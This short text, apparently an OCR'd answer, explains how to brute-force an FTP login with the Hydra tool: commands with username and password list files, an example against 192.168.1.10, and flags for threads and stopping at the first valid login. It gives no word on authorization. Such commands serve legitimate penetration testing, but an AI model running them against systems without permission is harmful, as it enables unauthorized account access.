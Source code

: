 To brute-force an FTP login using Hydra, you can use the following command:

```
hydra -L userlist.txt -P passlist.txt ftp://TARGET_IP
```

### Breakdown:

- `-L userlist.txt`: Path to a file containing **usernames** (one per line).

- `-P passlist.txt`: Path to a file containing **passwords** (one per line).

- `ftp://TARGET_IP`: Replace `TARGET_IP` with the actual IP address or domain of the FTP server.


### Example:

```
hydra -L users.txt -P passwords.txt ftp://192.168.1.10
```

### Optional flags:

- `-vV`: Show verbose output and every attempt.

- `-t 4`: Set the number of parallel tasks (default is 16, reduce if the server is slow or unstable).

- `-f`: Exit after finding the first valid login pair.


Example with additional options:

```
hydra -L users.txt -P passwords.txt -vV -t 4 -f ftp://192.168.1.10
```
